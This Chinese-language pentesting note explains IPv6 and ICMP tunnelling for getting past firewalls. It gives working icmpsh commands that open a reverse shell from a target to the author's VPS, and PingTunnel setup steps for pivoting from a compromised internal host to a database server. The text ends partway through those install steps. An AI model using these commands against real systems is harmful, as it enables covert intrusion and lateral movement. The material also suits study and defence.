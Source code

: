 概念：通过IPv6隧道传送IPv6数据报文(把IPv6报文整体封装在IPv4数据报文中，使得IPv6报文穿过IPv4海洋，到达另一个IPv6小岛)的技术

现阶段的边界设备、防火墙甚至入侵防御系统还无法识别IPv6的通信数据，而大多数的操作系统支持IPv6，所有需要手动配置(win的网络属性中)
Note：即使设备支持IPv6，也可能无法正确分析封装了IPv6报文的IPv4数据包

**配置隧道与自动隧道的区别：**
只有在执行隧道功能的节点的IPv6地址是兼容IPv4地址时，自动隧道才是可行的。在为执行隧道功能的节点分配ip地址时，如果采用的是自动隧道方法，就不需要进行设置。
配置隧道方法则要求隧道末端节点使用其他机制来获得其IPv4地址，例如：DHCP/人工配置或其他IPv4的配置机制


**防御：**
了解IPv6的具体漏洞，结合其他协议，通过防火墙和深度防御系统过滤IPv6通信


#### ICMP隧道
常见工具：`icmpsh`,`PingTunnel`,`icmptunnel`,`powershell icmp`等

比较特殊的协议，`不用开放端口`，最常见的ICMP消息为ping命令的回复。
将TCP/UDP数据包封装到ICMP的ping数据包中，从而穿过防火墙。

###### 工具
**1.icmpsh**
```bash
# 不需要管理员权限
# 简单，不存在正向反向
# 下载地址: https://github.com/inquisb/icmpsh
# 本机和目标都要安装
# 安装依赖库
apt-get install python-impacket


### 使用
# 我机器执行
# 先关闭本地系统的icmp应答(恢复改为0就行) -> 否则会无限刷屏
sysctl -w net.ipv4.icmp_echo_ignore_all=1

./run.sh  # 输入目标的公网ip  （此文件好像不对，用下面的py文件吧）
# 或者
./icmpsh_m.py IP(公网) IP(内网的公网ip)    # 这个的公网ip获取方法：ping外面，在外面抓包获取数据包的源地址 / 访问外面的地址然后查看网站访问日志等

# 目标机器执行（这里使用的win版本）
icmp.exe -t 192.168.1.7 -d 500 -b 30 -s 128  # 192.168.1.7我的vps

# 我的vps就会接收到反弹过来的shell
```


**2.PingTunnel**
```bash
# 下载地址：http://freshmeat.sourceforge.net/projects/ptunnel/
# 貌似可以这么安装：sudo apt install ptunnel
# 可跨平台使用。为了避免滥用，可为隧道设置密码

# 情景：得到的内网主机无法3389连接到数据库服务器，但是可以ping通。我们需以此机器为跳板访问另体贴数据库服务器

# 首先在两台机器都安装上此工具
## 安装方法
#1.安装编译
tar -zxvf ...
cd ...
make && make install
#2.如果缺少pcap.h(数据包捕获函数库),就安装
wget http://www.tcpdump.org/release/libpcap-1.9.0.tar.gz
tar -zxvf ...
cd ...
./configure
#3.如果yacc包错误，安装
sudo apt-get install -y byacc
```